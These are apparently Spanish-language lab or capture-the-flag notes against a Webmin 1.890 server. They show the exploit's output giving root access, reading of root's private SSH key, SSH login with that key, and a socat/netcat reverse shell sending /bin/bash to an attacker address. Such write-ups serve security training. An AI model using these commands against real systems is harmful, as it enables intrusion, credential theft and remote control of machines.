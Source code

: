 ```bash

	__        __   _               _         ____   ____ _____ 
	\ \      / /__| |__  _ __ ___ (_)_ __   |  _ \ / ___| ____|
	 \ \ /\ / / _ \ '_ \| '_ ` _ \| | '_ \  | |_) | |   |  _|  
	  \ V  V /  __/ |_) | | | | | | | | | | |  _ <| |___| |___ 
	   \_/\_/ \___|_.__/|_| |_| |_|_|_| |_| |_| \_\____|_____|

						@MuirlandOracle

		
[*] Server is running in SSL mode. Switching to HTTPS
[+] Connected to https://10.200.81.200:10000/ successfully.
[+] Server version (1.890) should be vulnerable!
[+] Benign Payload executed!

[+] The target is vulnerable and a pseudoshell has been obtained.
Type commands to have them executed on the target.
[*] Type 'exit' to exit.
[*] Type 'shell' to obtain a full reverse shell (UNIX only).

# id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:initrc_t:s0
```
- obtenemos la llave rsa

```bash
# ls /root/.ssh
authorized_keys
id_rsa
id_rsa.pub
known_hosts
# cat /root/.ssh/id_rsa
```

- No conetamos al server como root

```bash
root@ip-10-10-117-54:~# nano id_rsa
root@ip-10-10-117-54:~# chmod 400 id_rsa 
root@ip-10-10-117-54:~# ssh -i id_rsa root@10.200.81.200
^C
root@ip-10-10-117-54:~# ssh -i id_rsa root@10.200.81.200
The authenticity of host '10.200.81.200 (10.200.81.200)' can't be established.
ECDSA key fingerprint is SHA256:THDwSEv1rb9SXkMf4HfQREF1FvH2GtKfaBzVlSsYnuM.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.200.81.200' (ECDSA) to the list of known hosts.
[root@prod-serv ~]# 


```
 
 
- Un reverse shell con socat para probar
```bash

./socathack tcp-l:8300 tcp:10.50.82.110:443 &
./nchack 127.0.0.1 8300 -e /bin/bash



nc -lnvp 443
listening on [any] 443 ...
connect to [10.50.82.110] from (UNKNOWN) [10.200.81.200] 43730
id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```